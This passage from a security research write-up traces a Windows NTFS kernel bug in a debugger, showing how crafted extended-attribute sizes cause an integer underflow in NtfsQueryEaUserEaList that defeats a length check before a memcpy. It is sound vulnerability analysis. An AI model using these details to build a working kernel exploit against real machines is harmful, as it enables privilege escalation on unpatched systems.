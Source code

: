 So we can confirm that the first EA is successfully written into the buffer. Lets continue and see what the next iteration does:


```
1: kd> g
Breakpoint 1 hit

/// 2. Iteration (second EA)
1: kd> t
Ntfs!NtfsQueryEaUserEaList+0x196:
fffff803`0cb8c2ba 412bc7          sub     eax,r15d

1: kd> r eax, r15d
eax=aa r15d=3

1: kd> ?143-99
Evaluate expression: 170 = 00000000`000000aa
```

`0xaa` is the result of our original `output_buf_len` minus the previous `block_size` of `0x99`. And as we already calculated the padding is `3`. 


```
// if (block_size u> out_buf_len - padding) // r14d=block_size; eax=(out_buf_len-padding)
1: kd> t
Ntfs!NtfsQueryEaUserEaList+0x1a9:
fffff803`0cb8c2cd 443bf0          cmp     r14d,eax

1: kd> r r14d, eax
r14d=a5 eax=a7
```

We again pass the validation as `0xa5` is smaller than `0xa7`. We continue directly to the third iteration and skip the `memcpy` inspection this time.


```
1: kd> g
Breakpoint 1 hit

1: kd> t
Ntfs!NtfsQueryEaUserEaList+0x196:
fffff803`0cb8c2ba 412bc7          sub     eax,r15d

1: kd> r eax, r15d
eax=2 r15d=3

1: kd> t

1: kd> r eax
eax=ffffffff
```

This time we have a `out_buf_len` of `2` and a padding of `3` during the `sub` instruction, which leads to an `eax` value of `0xffffffff`.
This is the integer underflow we were talking about all that time! We got it. So we just have a remaining space of two bytes within our buffer but we are going to reach the `memcpy`.
